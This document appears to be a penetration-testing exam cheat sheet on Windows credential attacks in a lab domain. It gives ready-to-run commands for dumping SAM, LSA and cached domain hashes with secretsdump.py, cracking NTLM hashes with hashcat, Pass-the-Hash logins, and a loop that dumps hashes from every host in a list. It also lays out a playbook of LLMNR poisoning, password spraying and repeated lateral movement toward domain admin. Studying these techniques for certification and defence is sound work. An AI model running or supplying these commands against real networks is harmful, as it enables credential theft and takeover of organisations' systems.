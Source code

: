 ```yaml
---

### 🔐 **Dumping and Cracking Hashes: Exam-Ready Cheat Sheet**

---
```


## 📝 **Summary**

This guide helps you understand how to **dump password hashes** using [**secretsdump.py**](http://secretsdump.py/), **crack** those hashes with **hashcat**, and perform lateral movement using **Pass-the-Hash** attacks. It covers key concepts, commands, and actions in a way that is quick and easy to reference during your exam.

- **Objective**:
    1. Dump **SAM hashes**, **cached domain credentials**, and **LSA secrets** from target machines.
    2. Crack or reuse the dumped hashes to escalate privileges.
    3. Use **Pass-the-Hash** to move laterally across the network without needing the actual password.

### **Key Differences**:

- **secretsdump.py** **extracts credentials** (hashes, cleartext passwords) from a machine, while **crackmapexec** **tests those credentials** across other machines to see where they work.
- **secretsdump.py** focuses on **harvesting** valuable data, whereas **crackmapexec** is used for **credential re-use** and lateral movement in the network.

---

## 📚 **Detailed Notes**

### 1. **Dumping Password Hashes with `secretsdump.py`**

### 🔧 **Key Command**:

```bash
secretsdump.py MARVEL.local/fcastle:'Password1'@192.168.164.139

```

- **What it does**: Dumps **local SAM hashes**, **cached domain logon info**, and **LSA secrets** from the target machine.

### 🖥️ **Example Output**:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c

```

### 💡 **Key Tips**:

- **SAM hashes**: These are **hashed passwords** for local accounts on the target system.
- **Cached credentials**: May contain **domain admin passwords**. Cracking these gives you high-level access.

### 🚨 **Critical Mention**:

Always prioritize **Administrator** hashes! These are the most valuable for lateral and vertical movement.

---

### 2. **Cracking Hashes with `hashcat`**

### 🔧 **Key Command**:

```bash
hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt --show

```

- **What it does**: Cracks the **NTLM hash** stored in the file `ntlm.txt` using the **rockyou.txt** wordlist.

### 🖥️ **Example Output**:

```
64f12cddaa88057e06a81b54e73b949b:Password1

```

- **Result**: The hash `64f12cddaa88057e06a81b54e73b949b` was cracked to reveal the password `Password1`.

### 💡 **Key Tips**:

- Use **common wordlists** (like `rockyou.txt`) to crack hashes quickly.
- Even if you can't crack the hash, you can still use it in a **Pass-the-Hash attack**.

---

### 3. **Pass-the-Hash Attack**

### 🔧 **Key Command**:

```bash
secretsdump.py <administrator:@192.168.164.140> -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b

```

- **What it does**: Uses the **hash** instead of the password to dump more information from the target machine.

### 💡 **Key Tips**:

- You don’t need the plaintext password. The **hash** itself can be used to access other systems.

---

### 4. **Automating Lateral Movement**

If you have access to multiple machines, you can automate lateral movement across the network:

### 🖥️ **Command Example**:

```bash
for ip in $(cat ips.txt); do secretsdump.py admin:$hash@$ip; done

```

- This runs `secretsdump.py` on all IPs listed in `ips.txt`.

### 💡 **Key Tips**:

- Once you have access, dump hashes across the network to gain control over more machines.

### 🔀 **Lateral Movement**

---

## **LLMNR Poisoning to Lateral Movement**

### 1. **LLMNR Poisoning** ➡️ **Capture Hash** ➡️ **Crack Hash**:

- **Use LLMNR Poisoning** to capture hashed credentials (e.g., NTLM hashes) on the network.
- **Crack the Captured Hash** using tools like `hashcat` to retrieve plaintext passwords or use the hash in a Pass-the-Hash attack.

### 2. **Password Spraying**:

- After cracking, **spray the cracked password** across the network to identify other systems where it can be used.
- This step helps **find new login credentials** and gain access to additional machines.

### 3. **Dumping Credentials with `secretsdump.py`**:

- **Use newly found logins** to dump **local admin hashes** from machines:
    
    ```bash
    secretsdump.py <domain>/<user>@<target_ip>
    
    ```
    
- Gather as many hashes as possible for further lateral movement.

### 4. **Respraying the Network**:

- **Respray** the network using the **local admin hashes** to gain access to other machines and dump their credentials.

### 📌 **Key Takeaway**: This process focuses on repeating lateral movements until a vertical escalation (e.g., domain admin) is achieved. **Persistence** in moving laterally is key to finding the right opportunity for escalation.

---

## 🔑 **Abbreviations & Definitions**

- **SAM (Security Account Manager)**: Stores **hashed passwords** for local accounts.
- **LSA Secrets**: Stores sensitive information like **cached domain credentials** and **passwords**.
- **NTLM**: A **hashing algorithm** used to store Windows passwords.
- [**secretsdump.py**](http://secretsdump.py/): Tool for dumping **SAM**, **LSA**, and **cached credentials** from a target system.
- **hashcat**: Password cracking tool used to crack **NTLM** hashes.
- **Pass-the-Hash Attack**: Using an **NTLM hash** to authenticate without needing the actual password.

---

## 🚨 **Critical Mentions & Exam Traps**

- **📝 Administrator Hashes**: Always prioritize these when dumping hashes. They allow for the greatest control over a system.
- **🚨 Cached Credentials**: These are often domain admin passwords. Cracking them can give you complete domain control.
- **💡 Use Older Machines**: Look for systems using **wdigest** or older protocols to potentially find **cleartext passwords**.
- **🚨 Check for Cleartext Passwords**: Sometimes you’ll find a **cleartext password** in LSA Secrets, even when you expect only hashes.
- **📝 Automate Lateral Movement**: Once you have access, use scripts to dump hashes across the entire network.
- **🚨 Use LLMNR Attacks**: Capturing and cracking a hash via **LLMNR poisoning** can give you credentials to use across the network.

---

### 🛠️ **Cheat Sheet for Quick Commands**

### 🔧 **Dumping Hashes**:

```bash
secretsdump.py <domain>/<user>:<password>@<target_ip>

```

### 🔧 **Cracking Hashes**:

```bash
hashcat -m 1000 <hashfile> /usr/share/wordlists/rockyou.txt --show

```

### 🔧 **Pass-the-Hash Attack**:

```bash
secretsdump.py <user>@<target_ip> -hashes <NTLM_hash>

```

---